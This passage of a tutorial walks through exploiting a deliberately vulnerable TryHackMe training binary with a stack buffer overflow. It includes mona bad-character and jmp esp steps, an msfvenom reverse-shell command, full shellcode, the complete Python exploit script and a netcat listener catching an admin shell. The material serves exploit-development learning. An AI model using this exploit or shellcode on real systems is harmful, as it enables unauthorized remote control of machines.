payload = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
postfix = ""
[...]
```
When we run the exploit, we can see the program crashes again. We can now issue another Mona command to see what bytes were bad bytes. To do so, we run the following command.

```text
!mona compare -f C:\mona\oscp\bytearray.bin -a 01A0FA30
```

Where the value of -a is equal to the hex value for the ESP, or the extended stack pointer. You can find this value in the registers overview. When we run this command, we see the following mona memory comparison results.
<p>
	
</p>
We can see that 00 is added by default, as we specified it as a bad character. We can also see that a0, a1, ad, ae, be, bf, de, df, ef, f0 are flagged as bad characters. Do you see the pattern? After every first bad byte, the second byte is also flagged as a bad character. Usually the first byte causes the second byte to be registered as a bad byte as well. In this case, we should remove the a0, ad, be, de and ef bytes from our byte array, and reproduce our byte array like so.

```text
!mona bytearray -b "\x00\xa0\xad\xbe\xde\xef"
```

A new bytearray is generated without these characters in them. Now we have to remove these characters from our payload in the python script. Easiest way (imo) to do this is to open it in a text editor and use ctrl +f to find the characters. Our payload now looks like this.

```text
payload = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

Let's restart the program, crash it again and compare the byte array. It could be the case that the ESP value changed, so make sure you double check that. We then run the mona command.

```text
!mona compare -f C:\mona\oscp\bytearray.bin -a 0196FA30
```

Another mona memory comparison results tab pops up with the status result of "unmodified".
<p>
	
</p>
Meaning that we succesfully eliminated all bad characters from our list. We now know that we should make sure that the  "\x00\xa0\xad\xbe\xde\xef" bytes will not be used in our shell code. Now we are good to go to look for a jump point.

## Finding a Jump Point
We already figured out that we can control the EIP, meaning we can control what instructions the process is going to execute next. In order to exploit this, we need to find a jump point (jmp esp) that we can jump to. By doing so, we can tell the program to jump to a specific location in memory, after which we can add our shellcode to the process and let it execute it. This will make more sense when we visualize it in a bit. Let's use mona to find a jmp esp that does not contain any of our bad characters like so.

```text
!mona jmp -r esp -cpb "\x00\xa0\xad\xbe\xde\xef"
```

If for some reason the window does not pop up, you should navigate to Windows --> 2 Log data. We find a total of 9 pointers that we can use for our jump!
<p>
	
</p>
In the entries we can see that the jump points are found in the essfunc.dll, and have no protections enabled such as ASLR or SafeSEH. Let's take the memory address of the first jmp point, and rewrite it to little endian, and then write it out in hex.

```text
big endian: 625011af
small endian: af115061
hex: \xaf\x11\x50\x62
```

We can now add the hex value to the retn value in our exploit script, meaning that EIP will point to the address of this jmp esp.

```python
import socket

ip = "10.10.164.209"
port = 1337

prefix = "OVERFLOW10 "
offset = 537
overflow = "A" * offset
retn = "\xaf\x11\x50\x62"
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix
[...]
```

Before we generate any shell code, let's make sure that the jmp esp that we set as the return address will also be used by the application. In order to do so, we reload and relaunch the application, use the "go to address in disassembler" button (as described in the "Introduction to Immunity Debugger" paragraph), and supply our big endian jmp esp memory address there. We then find our jmp esp, and can right click on it to toggle a breakpoint (or press f2) like so.
<p>
	
</p>
The memory address should now turn light blue. Setting a breakpoint means that the debugger will continue all instructions until it reaches this specific memory address. It will then wait for us, the user, to supply any user input. Let's make sure that if we send our payload the program we will hit the breakpoint before the program crashes. Let's run the exploit script and see what happens. 
<p>
	
</p>
We see that the application paused, and that the breakpoint at essfunc.625011AF was reached. We can also see that the EIP points to our jmp esp address, meaning that we now succesfully control the jump point for the program. Now it's time to weaponize it.

## Generating Shellcode
In order to weaponize our buffer overflow, we need to generate shell code. To do so, we can use msfvenom. Let's run the following command.

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.0.153 LPORT=9001 EXITFUNC=thread -b "\x00\xa0\xad\xbe\xde\xef" -f c
```

Here we supply the following options:

* We will generate a stageless payload by supplying the windows/shell_reverse_tcp payload, meaning we do not require a framework like metasploit to catch our shell. More information and stageless vs staged payloads can be found [here](https://buffered.io/posts/staged-vs-stageless-handlers/).
* We set our LHOST and LPORT to our vpn IP and a random port.
* We set our exit function to thread, which allows for a clean exit out of the thread after executing our shell code.
* We supply the bad characters that are not allowed to be in our shellcode.
* We set the output type to c code, as we can easily add this to our python script with a simple trick, and allows for a smaller payload. 

When we run the command we get the following shell code back.

```text
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=3, char=0x00)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348
Payload size: 348 bytes
Final size of c file: 1488 bytes
unsigned char buf[] = 
"\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
"\x1e\x7b\x0e\x0e\x83\xee\xfc\xe2\xf4\xe2\x93\x8c\x0e\x1e\x7b"
"\x6e\x87\xfb\x4a\xce\x6a\x95\x2b\x3e\x85\x4c\x77\x85\x5c\x0a"
"\xf0\x7c\x26\x11\xcc\x44\x28\x2f\x84\xa2\x32\x7f\x07\x0c\x22"
"\x3e\xba\xc1\x03\x1f\xbc\xec\xfc\x4c\x2c\x85\x5c\x0e\xf0\x44"
"\x32\x95\x37\x1f\x76\xfd\x33\x0f\xdf\x4f\xf0\x57\x2e\x1f\xa8"
"\x85\x47\x06\x98\x34\x47\x95\x4f\x85\x0f\xc8\x4a\xf1\xa2\xdf"
"\xb4\x03\x0f\xd9\x43\xee\x7b\xe8\x78\x73\xf6\x25\x06\x2a\x7b"
"\xfa\x23\x85\x56\x3a\x7a\xdd\x68\x95\x77\x45\x85\x46\x67\x0f"
"\xdd\x95\x7f\x85\x0f\xce\xf2\x4a\x2a\x3a\x20\x55\x6f\x47\x21"
"\x5f\xf1\xfe\x24\x51\x54\x95\x69\xe5\x83\x43\x13\x3d\x3c\x1e"
"\x7b\x66\x79\x6d\x49\x51\x5a\x76\x37\x79\x28\x19\x84\xdb\xb6"
"\x8e\x7a\x0e\x0e\x37\xbf\x5a\x5e\x76\x52\x8e\x65\x1e\x84\xdb"
"\x5e\x4e\x2b\x5e\x4e\x4e\x3b\x5e\x66\xf4\x74\xd1\xee\xe1\xae"
"\x99\x64\x1b\x13\x04\x07\x1e\xe2\x66\x0c\x1e\x58\x27\x87\xf8"
"\x11\x1e\x58\x49\x13\x97\xab\x6a\x1a\xf1\xdb\x9b\xbb\x7a\x02"
"\xe1\x35\x06\x7b\xf2\x13\xfe\xbb\xbc\x2d\xf1\xdb\x76\x18\x63"
"\x6a\x1e\xf2\xed\x59\x49\x2c\x3f\xf8\x74\x69\x57\x58\xfc\x86"
"\x68\xc9\x5a\x5f\x32\x0f\x1f\xf6\x4a\x2a\x0e\xbd\x0e\x4a\x4a"
"\x2b\x58\x58\x48\x3d\x58\x40\x48\x2d\x5d\x58\x76\x02\xc2\x31"
"\x98\x84\xdb\x87\xfe\x35\x58\x48\xe1\x4b\x66\x06\x99\x66\x6e"
"\xf1\xcb\xc0\xee\x13\x34\x71\x66\xa8\x8b\xc6\x93\xf1\xcb\x47"
"\x08\x72\x14\xfb\xf5\xee\x6b\x7e\xb5\x49\x0d\x09\x61\x64\x1e"
"\x28\xf1\xdb";
```

We can add the shell code to our exploit script by copying the entire buffer, and adding it between parentheses like so.

```python
import socket

ip = "10.10.164.209"
port = 1337

prefix = "OVERFLOW10 "
offset = 537
overflow = "A" * offset
retn = "\xaf\x11\x50\x62"
padding = "\x90" * 16
payload = ("\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
"\x1e\x7b\x0e\x0e\x83\xee\xfc\xe2\xf4\xe2\x93\x8c\x0e\x1e\x7b"
"\x6e\x87\xfb\x4a\xce\x6a\x95\x2b\x3e\x85\x4c\x77\x85\x5c\x0a"
"\xf0\x7c\x26\x11\xcc\x44\x28\x2f\x84\xa2\x32\x7f\x07\x0c\x22"
"\x3e\xba\xc1\x03\x1f\xbc\xec\xfc\x4c\x2c\x85\x5c\x0e\xf0\x44"
"\x32\x95\x37\x1f\x76\xfd\x33\x0f\xdf\x4f\xf0\x57\x2e\x1f\xa8"
"\x85\x47\x06\x98\x34\x47\x95\x4f\x85\x0f\xc8\x4a\xf1\xa2\xdf"
"\xb4\x03\x0f\xd9\x43\xee\x7b\xe8\x78\x73\xf6\x25\x06\x2a\x7b"
"\xfa\x23\x85\x56\x3a\x7a\xdd\x68\x95\x77\x45\x85\x46\x67\x0f"
"\xdd\x95\x7f\x85\x0f\xce\xf2\x4a\x2a\x3a\x20\x55\x6f\x47\x21"
"\x5f\xf1\xfe\x24\x51\x54\x95\x69\xe5\x83\x43\x13\x3d\x3c\x1e"
"\x7b\x66\x79\x6d\x49\x51\x5a\x76\x37\x79\x28\x19\x84\xdb\xb6"
"\x8e\x7a\x0e\x0e\x37\xbf\x5a\x5e\x76\x52\x8e\x65\x1e\x84\xdb"
"\x5e\x4e\x2b\x5e\x4e\x4e\x3b\x5e\x66\xf4\x74\xd1\xee\xe1\xae"
"\x99\x64\x1b\x13\x04\x07\x1e\xe2\x66\x0c\x1e\x58\x27\x87\xf8"
"\x11\x1e\x58\x49\x13\x97\xab\x6a\x1a\xf1\xdb\x9b\xbb\x7a\x02"
"\xe1\x35\x06\x7b\xf2\x13\xfe\xbb\xbc\x2d\xf1\xdb\x76\x18\x63"
"\x6a\x1e\xf2\xed\x59\x49\x2c\x3f\xf8\x74\x69\x57\x58\xfc\x86"
"\x68\xc9\x5a\x5f\x32\x0f\x1f\xf6\x4a\x2a\x0e\xbd\x0e\x4a\x4a"
"\x2b\x58\x58\x48\x3d\x58\x40\x48\x2d\x5d\x58\x76\x02\xc2\x31"
"\x98\x84\xdb\x87\xfe\x35\x58\x48\xe1\x4b\x66\x06\x99\x66\x6e"
"\xf1\xcb\xc0\xee\x13\x34\x71\x66\xa8\x8b\xc6\x93\xf1\xcb\x47"
"\x08\x72\x14\xfb\xf5\xee\x6b\x7e\xb5\x49\x0d\x09\x61\x64\x1e"
"\x28\xf1\xdb")
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

We also added 16 \\x90 bytes as padding for our shellcode. The \\x90 instruction is a NOP or no procedure instruction. We add this in between our return address and our payload in order to ensure that we reach a clean area of memory in which we can run our shell code.

## Exploitation
Now that we have succesfully crafted our shell code and weaponized the buffer overflow, it's time to launch the attack. We first need to set up a netcat listener on our attackers machine on the port that we specified as LPORT in our shell code earlier.  I use rlwrap in order to get a more stable shell. You can also just use netcat. 

```sh
rlwrap nc -nvlp 9001
```

We then reopen en relaunch the program and execute our exploit script. Just to go over our full attack chain one more time, our script now:

* Connects to the Windows box on port 1337;
* Prefixes the command with "OVERFLOW10 ";
* Adds 537 A characters in order to get to the address of the EIP;
* Overwrites the EIP with a JMP ESP instruction that allows us to jump to a clean area of memory that has no memory protections enabled;
* Add 16 NOP bytes as padding in order to let our shell code run without issues;
* Adds the generated shell code to the memory and have it executed;
* Catch a shell :)

Let's run our exploit script.

```bash
python3 exploit.py
Sending evil buffer...
Done!
```

And we get a connection on our listener.

```sh
rlwrap nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.9.0.153] from (UNKNOWN) [10.10.164.209] 49245
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

whoami && hostname && ipconfig
oscp-bof-prep\admin
oscp-bof-prep

Windows IP Configuration


Ethernet adapter Local Area Connection 2:

   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
   Link-local IPv6 Address . . . . . : fe80::c5ef:7a65:62be:a27d%16
   IPv4 Address. . . . . . . . . . . : 10.10.164.209
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.10.0.1

Tunnel adapter isatap.eu-west-1.compute.internal:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : eu-west-1.compute.internal

C:\Users\admin\Desktop\vulnerable-apps\oscp>
```

And boom! We get a shell as the administrator user (since we were running the application as an administrator, and the code is executed in the context of the user that was running the application). We can also notice that the application did not crash when we got a shell onto the system. The reason for this is that we did not send any instructions that the process did not understand, and the process just continues silently asif nothing ever happened. 

## Conclusion
In this tutorial we leveraged the knowledge that we obtained from the theory of part one of this series to weaponize a stack based buffer overflow one step at the time in order to gain control over the underlaying operating system. I would very much encourage you to go through some of the other tasks within this TryHackMe room. Once you get the methodology down, nobody will be able to stop you, and you will be able to fully exploit a buffer overflow and document it in less than 30 minutes. 

If you're ready to try something slightly more difficult, you can try out the brainpan and dostackbufferoverflowgood binaries. These are very similar to the one we just exploited, but require you to take a look at the postfix and maybe alter the python script a bit. 

I know that vulnerabilities like the one described in this post barely exist nowadays, but it's still good to learn the basics of how the buffer overflow works. If I ever start with the Offensive Security Exploit Development (OSEP) course I will make sure to write another more advanced walkthrough. I hope this series has been useful for you, and that you are no longer afraid of simple x86 stack-based buffer overflows :) 

